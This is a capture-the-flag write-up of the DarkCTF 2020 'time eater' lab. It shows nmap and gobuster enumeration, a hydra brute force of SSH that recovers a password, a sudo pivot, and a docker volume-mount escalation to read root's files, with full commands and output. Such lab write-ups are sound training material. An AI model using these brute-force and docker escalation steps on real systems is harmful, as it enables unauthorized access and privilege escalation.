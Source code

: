 # DarkCTF 2020

## linux/time eater

> 63 solves / 446 points
>
> Author: Wolfy
>
> This room requires account on Try Hack Me tryhackme.com/jr/darkctflo
>
> Note: submit the root flag here.

Tags: _linux_ _web_ _bruteforce_ _docker_ _gobuster_


## Summary

Multistage exploit.

1. Find userids and password hint
2. Bruteforce SSH
3. Abuse Docker

Final stage was done by teammate [gp](https://bigpick.github.io/TodayILearned/).

## Stage 1: Find ports

With most of these [tryhackmes](https://tryhackme.com/) I start with nmap enumeration:

```
nmap -Pn -sCV -p22,80 -oN nmap/Basic_10.10.102.97.nmap 10.10.102.97
Nmap scan report for 10.10.102.97
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 64:60:d1:e5:39:96:90:b9:3c:72:b0:35:c2:2a:e4:f9 (RSA)
|   256 3c:07:fb:86:de:65:9b:52:59:70:de:06:2e:58:21:48 (ECDSA)
|_  256 b7:ed:d9:dd:40:46:b4:dc:c8:c3:5c:a1:28:78:73:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dimension by HTML5 UP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and HTTP.

## Stage 2: Checkout website

There was an email form, but that was about it.

1. Fired off Burp Suite crawler and active scanner.
2. Fired off sqlmap against form.
3. Fired off gobuster (`gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://${IP} --timeout 30s 2>&1 | tee gobuster.out.1`)

Of the three gobuster produced something useful first:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.102.97
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        30s
===============================================================
2020/09/26 14:05:31 Starting gobuster
===============================================================
/images (Status: 301)
/info (Status: 301)
/assets (Status: 301)
/test (Status: 301)
/cd (Status: 301)
/git (Status: 301)
/rabbit (Status: 301)
/server-status (Status: 403)
/uniqueroot (Status: 301)
===============================================================
2020/09/26 14:18:54 Finished
===============================================================
```

Enumerating `/uniqueroot` yielded a file (`/uniqueroot/wolfie_backup_files/chat.txt`) with the following contents:

```
Backup Chat Between Wolfie and Elliot:

Elliot: Hi!
Wolfie: hello.
Elliot: how's your work going?
Wolfie: i am still developing site i am currently at initial state.How's your work going?
Elliot; Oh okay!. Yeah I am working on restricting the users in the server using chroot but currently i am also at initial state some commands working and some still needs to get configured.
Wolfie: Great! how i check the progress?
Elliot: If you want to check my progress you can use (/elliot_important_file).
Wolfie: Thanks!:).

Signing Out...
```

Great, we have two user names `wolfie` and `elliot`, and yet another link that leads to `/elliot_important_file/note.txt` with the following:

```
Wolfie i have added password from rockyou
```

## Stage 3: Brute force SSH

```bash
# hydra -L users -P ../rockyou.txt -M ip.txt -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 14:25:30
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688798 login tries (l:2/p:14344399), ~7172200 tries per task
[DATA] attacking ssh://10.10.102.97:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 28688754 to do in 10866:58h, 4 active
[STATUS] 29.00 tries/min, 87 tries in 00:03h, 28688711 to do in 16487:46h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 28688594 to do in 16406:53h, 4 active
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 28688375 to do in 16955:19h, 4 active
[STATUS] 27.29 tries/min, 846 tries in 00:31h, 28687952 to do in 17520:14h, 4 active
[22][ssh] host: 10.10.102.97   login: elliot   password: godisgood
``` 

```
# ssh elliot@$IP
The authenticity of host '10.10.102.97 (10.10.102.97)' can't be established.
ECDSA key fingerprint is SHA256:y3FWpnBN0WIfyoNeS4c+2T6AAd0HIV8jJNX7yBaaqng.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.102.97' (ECDSA) to the list of known hosts.
elliot@10.10.102.97's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 27 02:26:38 UTC 2020

  System load:  0.0                Processes:           91
  Usage of /:   18.0% of 23.99GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.102.97
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

14 packages can be updated.
0 updates are security updates.

Last login: Tue Sep 15 10:09:00 2020 from 192.168.43.240
elliot@wolf_server:~$
```

We're in.

First thing I typed was `history`:

```
...
sudo -u dark /bin/dash
...
```

The `sudo` stood out:

```
$ sudo -u dark /bin/dash
$ cd /home/dark
$ ls -l
total 4
-rw-r--r-- 1 root root 36 Sep 13 11:50 user.txt
$ cat user.txt
flag{user_flag_for_this_challenge}
```

Not the flag we're looking for.


## Stage 4: Get the flag

I'm going to gloss over what didn't work for me, IANS, looking for suids, trying to brute force wolfie's password, looking for other interesting files that may have the goods, checking out cron ("time" was in the challenge title), looking for backups, etc...  the usual stuff.

After all that I just uploaded linpeas, and ran that as elliot and dark.  User dark flagged `docker` as interesting.

```bash
$ docker images
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat /home/elliot/.docker/config.json: permission denied
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        4 months ago        5.57MB

dark@wolf_server:/home/dark$ docker run -v /root:/loot --rm -it alpine /bin/sh
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat /home/elliot/.docker/config.json: permission denied
/ # cd /loot/ [TAB]
.local/     .rootflag/  .ssh/
/ # cd /loot/.rootflag/
/loot/.rootflag # ls -l
total 4
-rw-r--r--    1 root     root            42 Sep 12 14:05 root.txt
/loot/.rootflag # cat root.txt
darkCTF{Escalation_using_D0cker_1ss_c00l}
```